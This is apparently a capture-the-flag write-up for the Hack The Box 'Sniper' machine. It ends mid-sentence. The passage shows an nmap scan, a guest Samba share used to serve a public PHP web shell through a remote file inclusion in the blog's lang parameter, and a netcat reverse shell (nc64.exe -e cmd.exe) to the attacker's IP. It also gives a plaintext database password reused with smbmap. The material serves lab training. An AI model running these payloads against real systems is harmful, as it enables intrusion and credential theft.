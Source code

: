 ``` $ nmap -vvv -p1-65535 -oN pall.txt 10.10.10.151 ```

``` bind interfaces only = yes ```

##### [share] (remember this name)

``` path = /root/HTB/sniper.151/pub ```

``` writable = no ```

``` guest ok = yes ```

``` guest only = yes ```

``` read only = yes ```

``` directory mode = 0555 ```

``` force user = nobody ```


Now, restart SAMBA server to apply new configuration spcified in config file /etc/samba/smb.conf:

``` $ sudo service smbd start ```

Finally copied this php file in the /pub/ directory:

https://github.com/incredibleindishell/Mannu-Shell/blob/master/mannu.php

The last step for this part is to try to connect the target to our own machine:

http://10.10.10.151/blog/?lang=\\10.10.16.30\share\mannu.php

! share is the name that I mentioned in smb.conf file.

At this moment I could access the system as iusr user.

From the “CmD eXect” I could access cmd.exe and type my commands, and from the “DiReCtOrY cH cd” I could go to other directories. I found netcat executable file in c:\TEMP\ folder so I used it to get a shell:

``` nc64.exe -nv 10.10.16.30 58700 -e cmd.exe ```

##### ON KALI MACHINE:

``` $ nc -nlvp 58700 ```

And yes I got a shell and I didn’t have to deal with the webpage anymore!

After doing some enumeration I found a password in db.php file:

![09-dbphp](https://user-images.githubusercontent.com/62805453/85051826-8814fe80-b187-11ea-97fa-1bd9678f8c55.png)

So I tried to get into “Chris” via SSH, but it didn’t work.

Again I tried smbmap to see if there is any share folder:

``` $ smbmap -u chris -p "36mEAhz/B8xQ~2VM" -H 10.10.10.151 ```

But “IPC$” was the only share folder which had Read-Only permission.

Another way to test the password was switching to the user via CMD or Powershell.
As I didn’t know how to do it I decided to surf on the internet to find any useful command, finally found this website which helped me to get the USER FLAG but I was still unable to switch to Chris account: 
```